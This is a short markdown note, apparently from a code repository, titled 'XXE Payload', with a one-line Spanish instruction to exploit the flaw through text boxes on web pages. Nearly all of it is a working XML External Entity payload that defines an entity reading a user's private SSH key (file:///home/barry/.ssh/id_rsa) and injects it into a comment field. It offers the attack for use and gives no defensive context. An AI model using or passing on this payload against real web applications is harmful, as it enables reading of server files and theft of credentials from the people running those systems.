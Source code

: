 # XXE Payload
Explotar dicha vulnerabilidad dentro de cajas de texto en las paginas web.
	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
	<comment>
	  <name>Joe Hamd</name>
	  <author>Barry Clad</author>
	  <com>&xxe;</com>
	</comment>
